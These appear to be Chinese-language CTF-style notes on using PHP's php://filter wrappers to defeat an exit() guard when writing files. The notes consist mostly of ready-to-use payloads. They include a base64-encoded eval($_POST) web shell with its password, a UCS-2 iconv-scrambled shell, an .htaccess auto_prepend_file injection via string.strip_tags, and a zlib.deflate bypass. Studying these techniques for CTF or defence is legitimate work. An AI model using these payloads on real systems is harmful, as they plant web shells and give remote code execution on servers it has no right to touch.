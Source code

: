 bug解析：https://www.freebuf.com/vuls/202819.html

#### 4. php://filter绕过死亡exit

```
php://filter/write=convert.base64-decode/resource=1.php
content=aaPD9waHAgZXZhbCgkX1BPU1RbMF0pOz8%2B
密码0
```

```
https://www.leavesongs.com/PENETRATION/php-filter-magic.html 
https://xz.aliyun.com/t/8163#toc-3
```

至尊好文:https://xz.aliyun.com/t/8163#toc-3

iconv支持的编码格式：http://www.gnu.org/software/libiconv/

编码转换函数：`base_convert`

常用的编码转换：

```
usc-2两位一转换：php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSs[m1lp]e;)>?/resource=s1mple.php
使用该编码时 记得在本地做好测试， 两位一调整会和字符长度有关
usc-4四位已转换：同上
```



#### 0x01 base64和rot13 编码绕过

**base64编码后的等号，表示的是编码的结束，所以等号后面不能有字符**

```
$filename='php://filter/convert.base64-decode/resource=s1mple.php';
$content = 'aPD9waHAgcGhwaW5mbygpOz8+';
```

![image-20210427010152321](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210427010152321.png)

#### 0x02 **.htaccess的预包含利用**

```
$filename=php://filter/write=string.strip_tags/resource=.htaccess
$content=?>php_value%20auto_prepend_file%20G:\s1mple.php
```

其实这里也使用了php的过滤器，其中的strip_tags可以消除文件里面的标签。然后在闭合一下`>`,前面的`?>`是可以删除的

string.strip_tags过滤器只是可以在php5的环境下顺利的使用， 从字符串中去除 HTML 和 PHP 标记

#### 0x03 zlib.deflate绕过

```
$filename=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=s1mple.php
$content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0dphpinfo();?>/resource=s1mple.php
```

